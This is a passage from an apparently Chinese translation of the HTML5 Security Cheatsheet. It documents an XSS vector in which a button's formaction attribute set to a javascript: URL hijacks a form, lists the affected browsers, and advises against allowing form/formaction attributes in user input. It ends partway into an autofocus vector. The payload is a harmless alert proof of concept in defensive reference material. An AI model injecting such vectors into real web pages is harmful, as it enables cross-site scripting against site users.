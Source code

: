 # HTML5 安全备忘单

# HTML5 安全备忘单

> 来源：[HTML5 Security Cheatsheet](https://html5sec.org/)

## HTML5 特性向量

### 通过 formaction 属性进行 XSS - 需要用户进行交互 (1)#1test

这个向量展示了通过 HTML5 的 form 和 formaction 从外部劫持表单的一种方法.

```
<form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button> 
```

不要让用户提交包含 "form" 和 "formaction"属性的标签.避免在 form 中出现 id 属性及提交按钮.

*   firefox 4.0
*   firefox latest

*   opera 10.5

*   opera latest

*   chrome 10.0

*   chrome latest

*   safari 4.0.4

*   safari latest

*   internet explorer 10

*   internet explorer latest (inside form element)

*   xss

*   html5
*   opera
*   chrome
*   firefox
*   formaction
*   javascript
*   button

*   [`www.whatwg.org/specs/web-apps/current-work/multipage/association-of-controls-and-forms.html#attr-fs-formaction`](http://www.whatwg.org/specs/web-apps/current-work/multipage/association-of-controls-and-forms.html#attr-fs-formaction)

reporter：.mario

### 通过 autofocus 属性执行本身的 focus 事件#7test

这个向量是使焦点自动跳到输入元素上,触发焦点事件 - 无需用户交互
